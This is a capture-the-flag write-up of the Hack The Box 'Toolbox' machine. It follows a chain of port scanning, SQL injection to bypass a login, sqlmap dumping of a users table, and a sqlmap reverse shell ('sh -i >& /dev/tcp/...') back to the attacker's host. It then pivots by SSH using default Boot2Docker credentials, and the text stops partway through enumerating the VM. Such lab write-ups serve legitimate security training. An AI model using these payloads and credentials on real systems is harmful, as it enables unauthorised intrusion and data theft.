







+++
title = "Toolbox"
date = "2023-12-27"
description = "This is an easy Windows box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Windows

**Release date**: 2021-03-12

**Created by**: [MinatoTW](https://app.hackthebox.com/users/8308)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great practice security-wise, but it's a VM so it's alright. This way I won't have to prefix some commands with `sudo`, which gets cumbersome in the long run. Heck, it's hard enough to remember the flags for the commands without needing to know the privileges required to run them too!

I like to maintain consistency in my workflow for every box, so before starting with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box. I'll call it `workspace`, and it will be located at the root of my filesystem `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll run `httpsimpleserver` to create an HTTP server and `impacket-smbserver` to create an SMB share named `server`. This will make files in this folder available over the Internet, which will be especially useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory. This will come in handy once we get a foothold, for privilege escalation and for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the complexity of some exploits, and prefer a more manual approach when it's not too much hassle to really understand what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.6`, while the target machine's IP address will be `10.10.10.236`. The commands ran on my machine will be prefixed with `❯` for clarity, and if I ever need to transfer files or binaries to the target machine I'll always place them in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Remote enumeration

## Host discovery

Well, we already know the IP we are targeting, so this phase is actually empty!

## TCP port scanning

As usual, I'll initiate a port scan on Toolbox using a TCP SYN `nmap` scan to assess its attack surface.

```sh
❯ nmap -sS 10.10.10.236 -p-
```

```
<SNIP>
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
<SNIP>
```

## Service fingerprinting

Following the port scan, let's gather more data about the services associated with the open ports we found.

```sh
❯ nmap -sS 10.10.10.236 -p 21,22,135,139,443,445,5985 -sV
```

```
<SNIP>
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           FileZilla ftpd
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.38 ((Debian))
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
<SNIP>
```

Alright, so `nmap` managed to determine that Toolbox is running Windows. That's good to know!

## Scripts

Let's run `nmap`'s default scripts on these services to see if they can find additional information.

```sh
❯ nmap -sS 10.10.10.236 -p 21,22,135,139,443,445,5985 -sC
```

```
<SNIP>
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
22/tcp   open  ssh
| ssh-hostkey: 
|   2048 5b:1a:a1:81:99:ea:f7:96:02:19:2e:6e:97:04:5a:3f (RSA)
|   256 a2:4b:5a:c7:0f:f3:99:a1:3a:ca:7d:54:28:76:b2:dd (ECDSA)
|_  256 ea:08:96:60:23:e2:f4:4f:8d:05:b3:18:41:35:23:39 (ED25519)
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
443/tcp  open  https
|_http-title: MegaLogistics
| ssl-cert: Subject: commonName=admin.megalogistic.com/organizationName=MegaLogistic Ltd/stateOrProvinceName=Some-State/countryName=GR
| Not valid before: 2020-02-18T17:45:56
|_Not valid after:  2021-02-17T17:45:56
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Host script results:
| smb2-time: 
|   date: 2023-12-26T12:19:07
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
<SNIP>
```

Okay, so `nmap`'s scans found that the FTP server allows anonymous connections, and contains a `docker-toolbox.exe` file. Let's search online for more information on this application:

> The Docker Toolbox installs everything you need to get started with Docker on Mac OS X and Windows. It includes the Docker client, Compose, Machine, Kitematic, and VirtualBox.
>
> — [GitHub](https://github.com/docker-archive/toolbox)

Basically, this is a software used to simplify the use of Docker on Windows and Mac, since it's harder to do so on these OS than on Linux. It creates a VM that hosts the Docker containers.

The presence of this file is a hint that the Apache web server is running inside a Docker container in a VM, that's why it uses a Debian version of Apache.

`nmap`'s scans also found that the SSL certificate issuer of the web server on port `443/tcp` is set to the subdomain `admin.megalogistic.com`.

Let's add this subdomain and the corresponding domain to our hosts file.

```sh
❯ echo "10.10.10.236 megalogistic.com admin.megalogistic.com" | tee -a /etc/hosts
```

Let's explore the FTP and SMB servers first!

## FTP (port `21/tcp`)

Usually I would start with the exploration FTP server, but we already know that we can connect anonymously and that it hosts a `docker-toolbox.exe` file, so this would be pointless.

### Known CVEs

Just for good measure, let's check if FTP is vulnerable to known exploits.

```sh
❯ nmap -sS 10.10.10.236 -p 21 --script vuln
```

```
<SNIP>
PORT   STATE SERVICE
21/tcp open  ftp
<SNIP>
```

Nothing!

## SMB (port `445/tcp`)

### Anonymous login

We can try to connect to the SMB server as the `NULL` user. With a bit of luck, this will work!

```sh
❯ smbclient -L //10.10.10.236 -N
```

```
session setup failed: NT_STATUS_ACCESS_DENIED
```

Well, apparently it doesn't.

### Common credentials

We can try common credentails too, but to no avail.

### Known CVEs

Let's see if SMB is vulnerable to known CVEs.

```sh
❯ nmap -sS 10.10.10.236 -p 445 --script vuln
```

```
<SNIP>
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
<SNIP>
```

Well, looks like it isn't! Let's move on to the mysterious web server we found on port `443/tcp` then.

## Apache (port `443/tcp`)

Let's browse to `https://megalogistic.com/`:


This looks like a website about `MegaLogistics`, a company that offers 'worldwide freight services'.

### HTTP headers

Before exploring it further, let's check the HTTP response headers when we request the homepage.

```sh
❯ curl -k https://megalogistic.com/ -I
```

```
HTTP/1.1 200 OK
Date: Tue, 26 Dec 2023 12:34:40 GMT
Server: Apache/2.4.38 (Debian)
Last-Modified: Tue, 18 Feb 2020 06:51:26 GMT
ETag: "5755-59ed419c2b780"
Accept-Ranges: bytes
Content-Length: 22357
Vary: Accept-Encoding
Content-Type: text/html
```

The `Server` header confirms what we already knew thanks to `nmap`'s default scripts. Unfortunately, there's nothing more to learn.

### Technology lookup

While we're at it, let's look up the technologies used by this website with the [Wappalyzer](https://www.wappalyzer.com/) extension.



So it confirms what we already discovered, but it also reveals that this website is using Bootstrap and libraries like jQuery.

### Exploration

If we browse the website, we see that we have access to several web pages aside from the 'Home' web page.

The 'About us' page:


The 'Our services' page:


The 'Industries' page:


The 'Our blog' page:


And finally, the 'Contact' page:


There's not much to say about them... they're seemingly part of a template, and they haven't been edited. They are just filled with 'Lorem ipsum'.

There's only two functionalities that could be interesting to us.

The first is the newsletter subscription located in the footer of every web page. However, if we inspect this form, we realize that it just sends a POST request to `#`, so nothing happens.

The second is the contact form in the 'Contact' web page. But once again, if we inspect this form, we realize that it just sends a POST request to `#`, so nothing happens.

### Site crawling

Let's crawl the website to see there are hidden files and directories.

```sh
❯ katana -u https://megalogistic.com/
```

```
<SNIP>
[INF] Started standard crawling for => https://megalogistic.com/
https://megalogistic.com/
https://megalogistic.com/js/aos.js
https://megalogistic.com/js/main.js
https://megalogistic.com/js/jquery.stellar.min.js
https://megalogistic.com/js/jquery.countdown.min.js
https://megalogistic.com/js/jquery-migrate-3.0.1.min.js
https://megalogistic.com/js/popper.min.js
https://megalogistic.com/js/owl.carousel.min.js
https://megalogistic.com/js/bootstrap-datepicker.min.js
https://megalogistic.com/js/jquery-ui.js
https://megalogistic.com/js/jquery.magnific-popup.min.js
https://megalogistic.com/js/bootstrap.min.js
https://megalogistic.com/js/jquery-3.3.1.min.js
https://megalogistic.com/css/style.css
https://megalogistic.com/css/aos.css
https://megalogistic.com/css/bootstrap-datepicker.css
https://megalogistic.com/fonts/flaticon/font/flaticon.css
https://megalogistic.com/css/owl.theme.default.min.css
https://megalogistic.com/css/owl.carousel.min.css
https://megalogistic.com/css/magnific-popup.css
https://megalogistic.com/booking.html
https://megalogistic.com/css/jquery-ui.css
https://megalogistic.com/contact.html
https://megalogistic.com/services.html
https://megalogistic.com/industries.html
https://megalogistic.com/fonts/icomoon/style.css
https://megalogistic.com/blog.html
https://megalogistic.com/index.html
https://megalogistic.com/css/bootstrap.min.css
https://megalogistic.com/about.html
```

The `main.js` file at `/js/` could be interesting, but if we retrieve its content we see that it isn't.

Nothing.

### Directory fuzzing

Let's see if we can find unliked web pages and directories.

```sh
❯ ffuf -v -c -u https://megalogistic.com/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .php
```

```
<SNIP>

<SNIP>
```

Let's see if we can find unliked files.

```sh
❯ ffuf -v -c -u https://megalogistic.com/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-files.txt -maxtime 60
```

```
<SNIP>
[Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 26ms]
| URL | https://megalogistic.com/images
| --> | https://megalogistic.com/images/
    * FUZZ: images

[Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 27ms]
| URL | https://megalogistic.com/css
| --> | https://megalogistic.com/css/
    * FUZZ: css

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 27ms]
| URL | https://megalogistic.com/js
| --> | https://megalogistic.com/js/
    * FUZZ: js

[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 24ms]
| URL | https://megalogistic.com/fonts
| --> | https://megalogistic.com/fonts/
    * FUZZ: fonts

[Status: 200, Size: 22357, Words: 6240, Lines: 522, Duration: 459ms]
| URL | https://megalogistic.com/
    * FUZZ: 

[Status: 403, Size: 282, Words: 20, Lines: 10, Duration: 102ms]
| URL | https://megalogistic.com/server-status
    * FUZZ: server-status
<SNIP>
```

There's nothing unusual.

But this is not surprising. We found out in the [Scripts](#scripts) section the existence of a subdomain, named `admin.megalogistic.com`. The `admin` part is promising, and much more likely to give us a foothold — I just explored this domain for the sake of comprehensiveness, and in case the subdomain was a bait.

### `admin.megalogistic.com` subdomain

Let's browse to `https://admin.megalogistic.com/` and see what we get.



We stumble across a form... and the 'Sign in' header indicates that this is a log in one!

### Common credentials

I tried to log in using common credentials, but that was unsuccessful.

### SQLi

#### Test

Let's try to enter `foo'` as the username and `foo` as the password.



It's kinda hard to read, but there's a message at the top of the web page indicating that an error was encountered, so this form is vulnerable to SQLi!

It specifies that the error occured in `/var/www/admin/index.php` on line `10`, in the `pg_query()` function. This is a function used to execute a PostgreSQL request, so now we know that the backend is using this database.

#### Query

It also discloses a part of the SQL query, so we can assume that it looks like that:

```sql
SELECT * FROM users WHERE username = '<USERNAME>' AND password = md5('<PASSWORD>');
```

Therefore, we should be able to easily bypass it by entering:

```sql
foo' OR 1=1 -- -
```

#### Practice

Let's try it with a random password!



It worked! We got access to a dashboard.

### Exploration

This dashboard is composed of three pages. The 'Dashboard' page contains a general view of various information. It indiactes the server status, and the content of a todo-list. Apparently, `Administrator` still has to 'Send credentials to Tony' and 'Update Printer Drivers'...



The 'Orders' page is comprised of a table of orders. It's not really interesting.



The 'Contact' page indicates that this dashboard has been developed by `MegaCorp`, and is version `1.0.0`.

This means that this is a custom dashboard, so maybe there's vulnerabilities here... but there's no real functionalities to try to abuse.

But maybe the database used to store credentials contains information?

## PostgreSQL (through Apache)

Let's explore the PostgreSQL database we got access to using our SQLi.

Since this is an error-based SQLi, it's really hard to exploit by hand, and time-comsuing to develop a script for it. Therefore, I'll use the good old `sqlmap` to make things easier.

But first, I'll check the content of the first unsuccessful login request I made to `https://admin.megalogistic.com/`, and I'll save it in `/workspace/login_request`.

### Version

Let's find out the version of PostgreSQL in use.

```sh
❯ sqlmap -r /workspace/login_request -p username --technique E --dbms=PostgreSQL --batch --force-ssl --banner
```

```
<SNIP>
banner: 'PostgreSQL 11.7 (Debian 11.7-0+deb10u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 8.3.0-6) 8.3.0, 64-bit'
<SNIP>
```

So this is PostgreSQL version `11.7`!

### Databases

Now, let's see which databases are available.

```sh
❯ sqlmap -r /workspace/login_request -p username --technique E --dbms=PostgreSQL --batch --force-ssl --dbs
```

```
<SNIP>
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
<SNIP>
```

The `public` oen is the most interesting.

### `public`'s tables

Let's see which tables are included in this database.

```sh
❯ sqlmap -r /workspace/login_request -p username --technique E --dbms=PostgreSQL --batch --force-ssl -D public --tables
```

```
<SNIP>
Database: public
[1 table]
+-------+
| users |
+-------+
<SNIP>
```

So there's a single table named `users`.

### `users`'s columns

Let's continue our enumeration of this database by checking the content of the table we discovered.

```sh
❯ sqlmap -r /workspace/login_request -p username --technique E --dbms=PostgreSQL --batch --force-ssl -D public -T users --columns
```

```
<SNIP>
Database: public
Table: users
[2 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| password | varchar |
| username | varchar |
+----------+---------+
<SNIP>
```

Okay, so this table contains two columns: `password` and `username`.

### `users`'s columns content

Let's retrieve the content of the `password` and `username` columns.

```sh
❯ sqlmap -r /workspace/login_request -p username --technique E --dbms=PostgreSQL --batch --force-ssl -D public -T users -C password,username --dump
```

```
<SNIP>
Database: public
Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
<SNIP>
```

We find an entry named `admin`, and a corresponding MD5 hash!

### Hash cracking

Let's enter the hash we got on [Crackstation](https://crackstation.net/). Here's the result:


Unfortunately, no plaintext password was found.

# Foothold (SQLi)

We weren't able to retrieve the plaintext version of the MD5 hash we found. But we can still use our SQLi to obtain a shell!

## Preparation

The goal is to obtain a reverse shell. To that end, I'll use [this website](https://www.revshells.com/) to find appropriate payloads.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp 9001
```

```
listening on [any] 9001 ...
```

Then, I'll choose a payload from the last website (slightly modified) to initiate the connection to the listener:

```sh
sh -i >& /dev/tcp/10.10.14.6/9001 0>&1
```

## Exploitation

Time to use `sqlmap` to execute our reverse shell command! Note that I removed `--technique E` from the command, since apparently it's not possible to execute commands on the backend DBMS using this injection technique. Luckily for us, the server is vulnerable to other injection techniques.

```sh
❯ sqlmap -r /workspace/login_request -p username --dbms=PostgreSQL --batch --force-ssl --os-cmd "/bin/bash -c 'sh -i >& /dev/tcp/10.10.14.6/9001 0>&1'"
```

And on the listener...

```
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.236] 49796
sh: 0: can't access tty; job control turned off
$
```

It caught the shell. Nice!

Our shell is not really interactive though, so I'll run this one-liner to stabilize it a bit:

```sh
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
```

That's much better!

# Local enumeration

If we run `whoami`, we see that we got access as `postgres`.

## Distribution

Let's see which distribution this container is using.

```sh
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ cat /etc/os-release
```

```
PRETTY_NAME="Debian GNU/Linux 10 (buster)"
NAME="Debian GNU/Linux"
VERSION_ID="10"
VERSION="10 (buster)"
VERSION_CODENAME=buster
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

So this is Debian 10, okay. That's pretty recent, so we're unlikely to find vulnerabilities here.

## Architecture

What is this container's architecture?

```sh
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ uname -m
```

```
x86_64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe this container is vulnerable to a kernel exploit?

```sh
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ uname -r
```

```
4.14.154-boot2docker
```

Hmmm... that's unusual. What is `boot2docker`?

> Boot2Docker is a lightweight Linux distribution made specifically to run Docker containers. It runs completely from RAM, is a ~45MB download and boots quickly.
>
> — [GitHub](https://github.com/boot2docker/boot2docker)

This confirms that we are inside a Docker container, this technology is probably used by Docker Toolbox. But I wonder... can we do anything with this information?

If we read the README of the GitHub page, we find a [section about SSH](https://github.com/boot2docker/boot2docker#ssh-into-vm). Apparently, the default credentials used to SSH into the VM are `docker`:`tcuser`. Maybe we can try them?

There's one issue though: we don't know the IP of the VM. But maybe we can find it?

## NICs

Let's gather the list of connected NICs. I tried to use `ip`, but it's not installed, so I'll use `ifconfig` instead:

```sh
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig -a
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 312  bytes 54800 (53.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 263  bytes 83551 (81.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 795  bytes 251363 (245.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 795  bytes 251363 (245.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

sit0: flags=128<NOARP>  mtu 1480
        sit  txqueuelen 1000  (IPv6-in-IPv4)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

So there's the loopback interface and the Ethernet interface, but also a `sit0` interface.

If we search online, we learn that this is a special fallback device set up by the `sit` kernel module, a tunneling protocol for using IPv6 over an existing IPv4 connection. But it's not interesting at the moment.

What is really interesting is that the Ethernet interface is set to `172.17.0.2`... Perhaps the VM's IP is `172.17.0.1`?

## Home folder

Before trying to pivot to the VM, let's explore our home folder. Let's find its location:

```sh
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ awk -F: '/^postgres:/ {print $6}' /etc/passwd
```

```
/var/lib/postgresql
```

Alright, so let's see what it contains.

```sh
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ls -la /var/lib/postgresql
```

```
<SNIP>
drwxr-xr-x 1 postgres postgres 4096 Feb  8  2021 .
drwxr-xr-x 1 root     root     4096 Feb 19  2020 ..
lrwxrwxrwx 1 root     root        9 Feb  8  2021 .bash_history -> /dev/null
lrwxrwxrwx 1 root     root        9 Feb  8  2021 .psql_history -> /dev/null
drwx------ 2 postgres postgres 4096 Feb 19  2020 .ssh
drwxr-xr-x 1 postgres postgres 4096 Feb 18  2020 11
-rw-r--r-- 1 root     root       43 Feb  8  2021 user.txt
```

The user flag is here! Let's grab it.

```sh
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ cat /var/lib/postgresql/user.txt
```

```
f0183e44378ea9774433e2ca6ac78c6a  flag.txt
```

I'm not sure why there's `flag.txt` after the flag string, but let's ignore that.

# Pivoting (SSH)

Let's try to SSH into the VM from the container using the default credentials for Boot2Docker.

```sh
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ssh docker@172.17.0.1
```

```
docker@172.17.0.1's password:

   ( '>')
  /) TC (\   Core is distributed with ABSOLUTELY NO WARRANTY.
 (/-_--_-\)           www.tinycorelinux.net

docker@box:~$
```

It worked! We're now inside the VM.

# Local enumeration

If we run `whoami`, we see that we got access as `docker`.

## Distribution

Let's see which distribution this VM is using.

```sh
docker@box:~$ cat /etc/os-release
```

```
NAME=Boot2Docker
VERSION=19.03.5
ID=boot2docker
ID_LIKE=tcl
VERSION_ID=19.03.5
PRETTY_NAME="Boot2Docker 19.03.5 (TCL 10.1)"
ANSI_COLOR="1;34"
HOME_URL="https://github.com/boot2docker/boot2docker"
SUPPORT_URL="https://blog.docker.com/2016/11/introducing-docker-community-directory-docker-community-slack/"
BUG_REPORT_URL="https://github.com/boot2docker/boot2docker/issues"
```

So this is Boot2Docker. Predictable. I searched [ExploitDB](https://www.exploit-db.com/) for a vulnerability affecting this software version, but I found nothing.

## Architecture

What is this VM's architecture?

```sh
docker@box:~$ uname -m
```

```
x86_64
```

So this system is using x64. This will be useful to know if we want to compile our own exploits.

## Kernel

Maybe this container is vulnerable to a kernel exploit?

```sh
docker@box:~$ uname -r
```

```
4.14.154-boot2docker
```

Same as the container.

## AppArmor

Let's list the applications AppArmor profiles:

```sh
docker@box:~$ ls -lap /etc/apparmor.d/ | grep -v '/'
```

```
ls: cannot access '/etc/apparmor.d/': No such file or directory
```

Nothing.

## NICs

Let's gather the list of connected NICs.

```sh
docker@box:~$ ip a
```

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:f2:5e:be brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.15/24 brd 10.0.2.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fef2:5ebe/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:2c:6d:87 brd ff:ff:ff:ff:ff:ff
    inet 192.168.99.100/24 brd 192.168.99.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe2c:6d87/64 scope link 
       valid_lft forever preferred_lft forever
4: sit0@NONE: <NOARP> mtu 1480 qdisc noop state DOWN group default qlen 1000
    link/sit 0.0.0.0 brd 0.0.0.0
5: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:c5:9b:a5:3b brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:c5ff:fe9b:a53b/64 scope link 
       valid_lft forever preferred_lft forever
7: veth18d20dd@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether 7e:a4:73:6a:bc:bb brd ff:ff:ff:ff:ff:ff
    inet6 fe80::7ca4:73ff:fe6a:bcbb/64 scope link 
